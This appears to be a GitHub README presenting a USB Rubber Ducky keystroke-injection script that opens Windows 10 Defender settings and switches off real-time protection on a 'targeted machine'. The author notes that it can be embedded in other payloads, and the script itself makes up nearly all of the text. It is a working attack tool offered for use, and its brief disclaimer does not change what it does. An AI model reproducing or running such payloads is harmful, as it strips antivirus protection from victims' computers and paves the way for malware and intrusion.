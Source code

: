 Due to upgraded to Windows Defender, most script to disable it don’t work anymore. That’s why I decided to do it myself.

This scripts manually disable Windows Defender just as if the user clicked on the settings himself.

This can be included in other scripts.

You may want to adapt the DELAY depending on the speed of the targeted machine. 

```
REM Author      : https://github.com/TheTeasel
REM Description : Disable Windows Defender on Windows 10
REM             : You may want to change the DELAY depending on the speed of the targeted machine
REM             PLEASE DO NOT USE THIS SCRIPT FOR HARMFUL PURPOSES
DELAY 1000
REM Open Windows Defender settings
CTRL ESC
DELAY 1000
STRING Windows Defender Settings
DELAY 100
ENTER
REM Navigate to realtime protection and disable it
DELAY 1000
ENTER
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 250
TAB
DELAY 250
TAB
DELAY 250
TAB
ENTER
DELAY 1000
SPACE
DELAY 1000
LEFT
DELAY 500
ENTER
REM Close Settings
DELAY 500
ALT F4
DELAY 100
ALT F4
```